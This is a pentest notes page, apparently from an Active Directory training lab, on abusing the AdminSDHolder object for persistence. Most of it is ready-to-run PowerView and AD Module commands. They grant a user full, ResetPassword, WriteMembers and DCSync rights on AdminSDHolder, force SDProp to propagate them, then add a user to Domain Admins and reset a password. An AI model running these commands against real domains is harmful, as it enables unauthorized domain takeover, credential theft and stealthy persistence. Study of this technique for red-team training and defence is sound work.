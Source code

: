 # AdminSDHolder

AdminSDHolder is a system container that used to control permissions.\
These permissions are used as a template for protected accounts to prevent modifications to them. \


Security Descriptor Propagator (SDPROP) runs every 60 minutes.\
SDPROP compares between the ACL of the protected groups and members and the ACL of AdminSDHolder, then any differences are overwritten on the ACL Object.

## Exploitation

An attacker can utilize SDROP mechinsem by adding a user with GenericAll privileges\
to theAdminSD Holder object.\
\
When the SDPROP runs (every 60 minutes) the user will be add with elevated privileges.\


Adding user to the AdminSDHolder object&#x20;

{% code overflow="wrap" %}
```powershell
# Full privs
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Reset Password priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Write Members priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DC Sync priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
{% endcode %}

Run SDProp mannually

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## Abusing rights

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Add user to DA group
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Reset Password
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
<pre class="language-powershell"><code class="lang-powershell"># Add user to DA group
<strong>Add-ADGroupMember -Identity 'Domain Admins' -Members testda
</strong>
# Reset Password
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
</code></pre>
{% endtab %}
{% endtabs %}

